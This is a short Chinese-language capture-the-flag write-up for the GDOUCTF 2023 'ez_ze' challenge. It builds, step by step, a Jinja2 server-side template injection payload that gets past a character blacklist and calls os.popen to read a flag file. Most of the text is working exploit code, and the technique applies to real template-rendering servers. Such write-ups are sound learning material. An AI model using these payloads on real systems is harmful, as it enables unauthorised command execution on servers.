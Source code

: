#SSTI 

[[GDOUCTF 2023]ez_ze - bl0ck - 博客园 (cnblogs.com)](https://www.cnblogs.com/bl0ck/articles/17595237.html)

被过滤：`{{` `}}` `popen` `_` `[` `]` `os` `getitem` `.` `"` 
按照链接里的解法

payload 原型

```python
{{lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat /flag')|attr('read')()}}
```

先获取下划线和空格

```python
{% print(lipsum|string|list) %}
```

第十九个是下划线,这里要用pop来获取下划线。

```python
{% set pop=dict(pop=1)|join %}
{% set xhx=(lipsum|string|list)|attr(pop)(18) %}
{% set kong=(lipsum|string|list)|attr(pop)(9) %}
```

获取反斜线，**lipsum**里面没有斜杠，在**config**里面发现有斜杠有点多可以写可脚本遍历一下

第239个是斜杠

```python
{% set pop=dict(pop=1)|join %}
{% set re=(config|string|list)|attr(pop)(239) %}
```

然后是获取 `__globals__`

```python
{% set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join %}
```

用同样的方式获取 `__getitem__`

```python
{% set geti=(xhx,xhx,dict(get=a,item=b)|join,xhx,xhx)|join %}
```

其他的就是依葫芦画瓢。

完整的payload就是

```python
{% set pop=dict(pop=1)|join %}
{% set kong=(lipsum|string|list)|attr(pop)(9) %}
{% set xhx=(lipsum|string|list)|attr(pop)(18) %}
{% set re=(config|string|list)|attr(pop)(239) %}
{% set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join %}
{% set geti=(xhx,xhx,dict(get=a,item=b)|join,xhx,xhx)|join %}
{% set o=dict(o=a,s=b)|join %}
{% set po=dict(pop=a,en=b)|join %}
{% set cmd=(dict(cat=a)|join,kong,re,dict(flag=a)|join)|join %}
{% set read=dict(read=a)|join %}
{% print(lipsum|attr(globals)|attr(geti)(o)|attr(po)(cmd)|attr(read)()) %}
```